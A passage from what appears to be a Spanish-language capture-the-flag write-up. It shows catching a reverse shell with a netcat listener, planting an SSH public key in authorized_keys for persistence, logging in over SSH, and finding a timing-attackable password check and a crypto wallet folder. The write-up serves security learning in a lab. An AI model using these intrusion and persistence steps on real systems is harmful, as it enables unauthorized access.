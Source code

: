 En nuestra máquina atacante iniciamos un listener con netcat.

```bash
nc -lvnp 443
```

Tras esperar aproximadamente un minuto, recibimos una shell inversa con privilegios del usuario `shelldredd`.

![shell con shelldredd](../../../assets/images/zerotrace/shell-shelldredd.png)

## Movimiento lateral de shelldredd a ll104567

Antes de continuar, instalamos nuestra clave pública en el directorio `.ssh` del usuario `shelldredd` para facilitar el acceso mediante SSH y mantener la persistencia.

Utilizamos nuestra clave pública.

```bash
mkdir .ssh && echo "ssh-ed25519 AAAAC.....CxOr3 kali@kali" > ./.ssh/authorized_keys && chmod 600 ./.ssh/authorized_keys
```

Ahora podemos conectarnos mediante SSH desde nuestro host para obtener una shell completa y mantener la persistencia.

```bash
ssh shelldredd@192.168.1.187
```

Encontramos varias cosas interesantes en el servidor, tenemos acceso al home del usuario `ll104567` y observamos tres ficheros interesantes:

   - `guessme` ejecutable vulnerable a ataque de temporización en la condición `[[ $FTP_PASS == $CLEAN_PASS ]]`, parece necesitar de más privilegios para su ejecución.
   - `one` una lista de personajes que tienen que ver con el universo **One-Punch Man**, completamente desconocido para mí. Con un mensaje al principio que dice: `Why don't we join two universes and see who's the strongest?`.
   - `user.txt` la primera bandera del reto, pero sin permisos de lectura.

También encontramos una carpeta que parece ser una wallet de crypto `/opt/cryptovault/ll104567` con tres ficheros:
